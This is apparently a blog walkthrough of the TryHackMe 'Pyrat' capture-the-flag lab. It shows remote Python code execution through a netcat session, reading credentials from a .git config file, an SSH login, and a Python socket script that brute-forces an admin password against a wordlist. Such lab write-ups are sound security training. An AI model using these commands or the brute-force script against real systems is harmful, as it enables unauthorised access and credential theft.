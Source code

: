 ```yaml
---
layout: post
title: "THM Pytrat Workthrough"
permalink: /blog/thm_pyrat_workthrough/
---
```


# TryHackMe Workthrough => Pyrat

### Description

Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

# Nmap port scan

Screenshot:

![image](/assets/images/thm/pyrat/1.png)

Port ssh (22) and Hppt (8000) is open.
Screenshot:

# Check for the http port information.

![image](/assets/images/thm/pyrat/2.png)

Basic connection ok. lets connect to port 8000 using netcat. Try to run hello world python syntax as description says there are potential python code execution vulnerability.
Screenshot:
![image](/assets/images/thm/pyrat/3.png)

We can execute python codes here.

Next I will use python code execution payload further. Try to check for incomming mails.
Screenshot:
![image](/assets/images/thm/pyrat/4.png)

May be there is something for me in `think`. Next try to read this mail.

Screenshot:
![image](/assets/images/thm/pyrat/5.png)

search for git folders.

```python
import os; print([r for r, d, ds in os.walk('/') if ".git" in d])
```

Screenshot:
![image](/assets/images/thm/pyrat/6.png)

Check git config.

![image](/assets/images/thm/pyrat/7.png)

We got username and password here. Let's try to ssh using this credential.

We have successfully loged in and in the home directory there is an `users.txt` file contains our first flag.

### Root

![image](/assets/images/thm/pyrat/8.png)

Python script to find admin password.

```python=
import socket


TARGET_IP = '10.10.118.253'
TARGET_PORT = 8000
WORDLIST = '/usr/share/wordlists/rockyou.txt'


with open(WORDLIST, 'r', encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        try:
            s = socket.socket()
            s.settimeout(3)
            s.connect((TARGET_IP, TARGET_PORT))

            # Send admin
            s.sendall(b"admin\n")
            data = s.recv(4096).decode()

            # read password prompt
            if "Password:" in data:
                s.sendall((password + "\n").encode())
                data = s.recv(4096).decode()
                print(f"[TRY] Password: {password} | Response: {data.strip()}")

                if "Password:" not in data:
                    print(f"\n[SUCCESS] Password found: {password}")
                    break
            else:
                print("Error: unexpected response after sending username")

            s.close()
        except Exception as e:
            print("Error: %s " %e)

```

Now successfully got the admin password.
![image](/assets/images/thm/pyrat/9.png)

## Useful commands.

1. `nmap -sS 10.10.133.11`
2. `import os; print([r for r, d, ds in os.walk('/') if ".git" in d])`
3. `print(open("/opt/dev/.git/config").read())`
4. `ssh think@10.10.118.253`
5. `nc 10.10.118.253 8000`
